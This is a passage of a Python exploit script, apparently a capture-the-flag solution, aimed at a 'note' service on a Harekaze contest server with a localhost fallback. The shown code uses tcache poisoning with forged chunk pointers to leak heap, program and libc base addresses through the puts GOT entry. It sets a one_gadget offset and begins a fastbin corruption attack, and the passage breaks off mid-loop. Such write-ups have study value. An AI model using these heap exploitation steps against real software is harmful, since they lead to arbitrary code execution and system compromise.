 ```python
    return sock.recvline().rstrip()

def delete(title):
    sock.recvuntil("Choice: ")
    sock.sendline("4")
    sock.recvuntil("delete: ")
    sock.sendline(title)

elf = ELF("./note")
#"""
libc = ELF("./libc.so.6")
one_gadget = 0x106ef8
sock = Socket("problem.harekaze.com", 20003)
#"""
"""
libc = ELF("./test/libc.so.6")
one_gadget = 0xdf991
sock = Socket("localhost", 4001)
#"""

## leak heap address
create("A")
create("B")
write("A", 0x28, "Hello")
write("B", 0x28, "Hello")
delete("A")
delete("B")
create("A")
addr_heap = u64(show("A"))
dump("addr heap = " + hex(addr_heap))

## leak proc base
create("X")
create("X2")
write("X", 0x28, b"A" * 0x20 + p64(addr_heap + 0x78)) # fake chunk
delete("X")
# now: tcache --> (X) --> (X->content) --> ...
create("X")
create("Y") # pon!
proc_base = u64(show("Y")) - 0x4080
dump("proc base = " + hex(proc_base))

## leak libc base
create("P")
write("P", 0x28, b"A" * 0x20 + p64(proc_base + elf.got("puts")))
delete("P")
# now: tcache --> (P) --> (P->content) --> ...
create("P")
create("Q") # pon!
libc_base = u64(show("Q")) - libc.symbol("puts")
dump("libc base = " + hex(libc_base))

## fastbin corruption attack
for i in range(7):
    create("dummy" + str(i))
    write("dummy" + str(i), 0x38, "pon")
create("AAAA")
write("AAAA", 0x38, "Hello")
create("BBBB")
write("BBBB", 0x38, "World")
for i in range(7):
    delete("dummy" + str(i))
for i in range(7):
```